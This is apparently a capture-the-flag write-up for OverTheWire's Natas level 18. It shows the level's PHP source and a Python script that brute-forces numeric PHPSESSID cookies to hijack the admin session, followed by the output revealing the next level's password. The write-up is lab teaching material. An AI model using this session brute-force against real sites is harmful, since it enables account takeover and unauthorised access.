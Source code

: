 # Natas Level 18
```bash
Username: natas18
Password: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP
URL:      http://natas18.natas.labs.overthewire.org
```
We enter the site, and see the following page:
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas18.png" />
    <div align="center">Natas 18</div>
</figure>

And from the "View sourcecode" link we can extract the following script:
```php
$maxid = 640; // 640 should be enough for everyone 

function isValidAdminLogin() { /* {{{ */ 
    if($_REQUEST["username"] == "admin") { 
        /* This method of authentication appears to be unsafe and has been disabled for now. */ 
        //return 1; 
    } 

    return 0; 
} 
/* }}} */ 
function isValidID($id) { /* {{{ */ 
    return is_numeric($id); 
} 
/* }}} */ 
function createID($user) { /* {{{ */ 
    global $maxid; 
    return rand(1, $maxid); 
} 
/* }}} */ 
function debug($msg) { /* {{{ */ 
    if(array_key_exists("debug", $_GET)) { 
        print "DEBUG: $msg<br>"; 
    } 
} 
/* }}} */ 
function my_session_start() { /* {{{ */ 
    if(array_key_exists("PHPSESSID", $_COOKIE) and isValidID($_COOKIE["PHPSESSID"])) { 
        if(!session_start()) { 
            debug("Session start failed"); 
            return false; 
        } else { 
            debug("Session start ok"); 
            if(!array_key_exists("admin", $_SESSION)) { 
                debug("Session was old: admin flag set"); 
                $_SESSION["admin"] = 0; // backwards compatible, secure 
            } 
            return true; 
        } 
    } 

    return false; 
} 
/* }}} */ 
function print_credentials() { /* {{{ */ 
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) { 
        print "You are an admin. The credentials for the next level are:<br>"; 
        print "<pre>Username: natas19\n"; 
        print "Password: <censored></pre>"; 
    } else { 
        print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas19."; 
    } 
} 
/* }}} */ 

$showform = true; 
if(my_session_start()) { 
    print_credentials(); 
    $showform = false; 
} else { 
    if(array_key_exists("username", $_REQUEST) && array_key_exists("password", $_REQUEST)) { 
        session_id(createID($_REQUEST["username"])); 
        session_start(); 
        $_SESSION["admin"] = isValidAdminLogin(); 
        debug("New session started"); 
        $showform = false; 
        print_credentials(); 
    } 
}
```

Upon login, the function *my_session_start* is being called.

It first tries to load active session (from cookie),

It checks for PHPSESSID cookie and validates it (with *isValidID* which check for numeric value), and after that starts the session. if value "admin" is found in the session variables, admin flag is being set.

If no cookie found, it creates new session (with fresh session id).

We need somehow to set the admin flag (or guess the PHPSESSID of the admin). We can brute force PHPSESSIDs with this python code:
```python
import requests
import string

URL = "http://natas18.natas.labs.overthewire.org/index.php"
auth = ('natas18', 'xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP')

phpsessid = 0

while True:
    cookie = {'PHPSESSID': str(phpsessid)}

    r = requests.get(URL, auth=auth, cookies=cookie)

    if 'regular' in r.text:
        phpsessid += 1
    else:
        break

print r.text
```

After few seconds, we get this result:
```bash
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas18", "pass": "xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP" };</script></head>
<body>
<h1>natas18</h1>
<div id="content">
You are an admin. The credentials for the next level are:<br><pre>Username: natas19
Password: 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs</pre><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

We got the password for the next level: **4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs**
